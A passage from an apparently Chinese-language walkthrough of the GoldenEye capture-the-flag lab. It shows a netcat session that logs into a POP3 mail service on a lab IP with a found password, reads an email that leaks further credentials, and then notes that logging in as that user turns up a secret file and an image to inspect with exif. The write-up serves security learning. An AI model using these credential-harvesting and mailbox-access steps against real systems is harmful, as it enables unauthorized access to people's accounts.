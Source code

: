 ```bash
┌──(fforu㉿fforu)-[~/workspace]
└─$ nc -vn 10.10.114.10 55007
(UNKNOWN) [10.10.114.10] 55007 (?) open
+OK GoldenEye POP3 Electronic-Mail System
USER doak
+OK
PASS goat
+OK Logged in.
LIST
+OK 1 messages:
1 606
.
RETR 1
+OK 606 octets
Return-Path: <doak@ubuntu>
X-Original-To: doak
Delivered-To: doak@ubuntu
Received: from doak (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 97DC24549D
        for <doak>; Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
Message-Id: <20180425034731.97DC24549D@ubuntu>
Date: Tue, 30 Apr 1995 20:47:24 -0700 (PDT)
From: doak@ubuntu

James,
If you're reading this, congrats you've gotten this far. You know how tradecraft works right?

Because I don't. Go to our training site and login to my account....dig until you can exfiltrate further information......

username: dr_doak
password: 4England!
```

得到用户的账号及密码了
那再登录一下？
该用户下找到了一个秘密文件
![](images/2024-04-03-20-56-40.png)
![](images/2024-04-03-20-57-14.png)
得到一个图片的目录位置
下载下来直接exif就可以